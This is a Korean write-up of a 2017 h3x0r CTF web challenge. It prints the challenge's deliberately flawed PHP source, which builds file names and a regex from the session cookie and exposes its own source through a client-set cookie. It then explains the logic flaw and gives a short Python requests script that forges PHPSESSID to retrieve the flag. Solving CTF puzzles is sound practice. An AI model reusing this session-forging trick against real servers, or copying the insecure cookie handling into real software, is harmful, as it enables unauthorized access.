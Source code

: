 ======================================================
[2017_h3x0r] [WEB] file with php
======================================================

문제 내용
======================================================

http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php


문제 풀이
======================================================

해당 사이트에 접속해보면 Blank Page. LoL이라고 뜨고 있는데, 쿠키값을 확인해보면 source라는 값이 0으로 존재한다. 해당 값을 1로 수정하면 다음과 같은 php 소스코드를 확인할 수 있다.

.. code-block:: php

    <?php
        
        $flag = 1;
        include "config.php";
        
        $_SESSION[cookie] = $_COOKIE[PHPSESSID];

        if($_GET['mode']=="pwn") {

            $f=file("$_SESSION[cookie].txt");
            
            if(preg_match("/^$_SESSION[cookie]$/i", md5($f[0]))) {
                unlink("$_SESSION[cookie].txt");
                echo $flag;
            }
        
            $f = fopen(md5($_SESSION[cookie]).".txt", "w");
            fwrite($f,$_SESSION[cookie]);
            fclose($f);
            usleep(300000);
            unlink(md5($_SESSION[cookie]).".txt");
        }

        if($_COOKIE['source']) {
            show_source(__FILE__);
            exit();
        }
        
        setcookie('source', 0);
        echo "<h3> Blank Page. LoL </h3>";
    ?>


문제를 볼 때 항상 입력값과 출력값을 염두해두자. 입력값은 mode 파라미터와 PHPSESSID 쿠키 값이고, 출력하고자하는 값은 flag 변수이다.
출력 값인 flag 변수 내용을 가져오기 위해서는, 조건문이 2개 맞아야 한다.

1. mode 파라미터가 pwn이어야 한다.
2. f변수의 0번째 값을 md5한 값이 PHPSESSID 쿠키 값과 일치해야 한다.

f변수는 PHPSESSID 쿠키 값으로 파일을 생성하는데, 최초 생성이기에 해당 array에는 아무 내용도 없을 것이다. 
그 때문에 $f[0]=""일 것이고, md5($f[0])=d41d8cd98f00b204e9800998ecf8427e 일 것이다.


다음과 같은 python 코드를 통해 플래그를 획득한다.

.. code-block:: python

    import requests

    url = "http://13.124.93.183/h3x0rctf/d41d8cd98f00b204e9800998ecf8427e.php?mode=pwn"
    header = {
        "Cookie":"PHPSESSID=d41d8cd98f00b204e9800998ecf8427e"
    }
    r = requests.get(url,headers=header)
    print r.content
